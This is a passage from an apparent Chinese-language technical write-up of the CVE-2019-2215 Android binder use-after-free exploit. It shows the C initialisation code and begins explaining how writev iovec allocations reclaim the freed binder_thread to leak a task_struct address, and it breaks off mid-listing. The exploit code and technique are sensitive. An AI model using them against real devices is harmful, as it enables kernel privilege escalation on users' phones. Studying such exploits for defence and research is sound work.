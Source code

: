 ### 初始化

在这一部分先简单介绍一下之后会使用到的一些东西的初始化过程。
Init1中创建了一个`binder`并且使用`epoll_create`来创建一个队列供`binder_thread`使用。这样在之后的epoll操作中就可以引用`binder_thread`中的`wait`字段。
Init2中向epoll队列中添加了一个元素，这是为之后队列上的的unlink作准备。
Init3中申请了一个基地址为4g的内存区域，这是为了生成一个地址低4字节为`0`的合法地址。
Init4中创建了一个管道方便之后父子进程的IO通信。
Init5中构造了一个iovec数组。
```C
  // #Init1
  binder_fd = open("/dev/binder", O_RDONLY);
  epfd = epoll_create(1000);
  // #Init2
  struct epoll_event event = {.events = EPOLLIN};
  epoll_ctl(epoll_fd, EPOLL_CTL_ADD, binder_fd, &event);
  // #Init3
  dummy_page = mmap((void *)0x100000000ul, 2 * PAGE_SIZE,
                      PROT_READ | PROT_WRITE,
                      MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  // #Init4
  int pipe_fd[2];
  pipe(pipe_fd);
  // #Init5
  iovec iovs[25];
  memset(&iovs, 0, sizeof(iovs));
  iov_idx = 10;
  iovs[iov_idx].iov_base = dummy_page; /* spinlock in the low address half mustbe zero */
  iovs[iov_idx].iov_len = PAGE_SIZE; /* wq->task_list->next */
  iovs[iov_idx + 1].iov_base = (void *)0xdeadbeef; /* wq->task_list->prev */
  iovs[iov_idx + 1].iov_len = PAGE_SIZE;
```

### 泄露task_struct地址

下图是使用UAF泄露task_struct地址的主要流程。
![UAF-Flow-Graph](https://xylearn-cloud-img.oss-cn-shanghai.aliyuncs.com/img/CVE-2019-2215%20UAF-Flow%20graph%20for%20blog-2-2020-11.png)

在这个流程中使用到了两个进程，使用pipe通信以方便进行IO读写和在必要时阻塞IO。主进程负责释放`binder_thread`结构体，调用`writev`获取和修改chunk，进一步泄露地址；而子进程负责触发wait_queue的unlink，读取dummy page。

我们先使用`writev`来实现对`binder_thread`结构体的写和读。首先需要在内核中分配一个可以被我们控制的chunk来获取释放的`binder_thread`的chunk。`Vectored IO`的读写操作会调用`rw_copy_check_uvectior`在内核空间分配一块内存，并将用户传递的iovec结构体数组拷贝到内核空间中。由于`binder_thread`结构体大小为408 bytes，我们需要在内核中分配一块400 bytes到416 bytes大小的堆块来得到freed chunk。iovec结构体大小为16 bytes，所以我们可以构造一个长度为25的iovec数组来在内核中申请400 bytes的空间，从而获取到`binder_thread`的堆块，同时又不覆盖到`binder_thread`中的`task`字段，我们之后要用它来泄露地址。
```C
// fs/read_write.c
ssize_t rw_copy_check_uvector(int type, const struct iovec __user * uvector,
			      unsigned long nr_segs, unsigned long fast_segs,
			      struct iovec *fast_pointer,
			      struct iovec **ret_pointer)
{
    // ...

	/*
	 * First get the "struct iovec" from user memory and
	 * verify all the pointers
	 */
	if (nr_segs > UIO_MAXIOV) {
		ret = -EINVAL;
		goto out;
	}
	if (nr_segs > fast_segs) {
		iov = kmalloc(nr_segs*sizeof(struct iovec), GFP_KERNEL);
```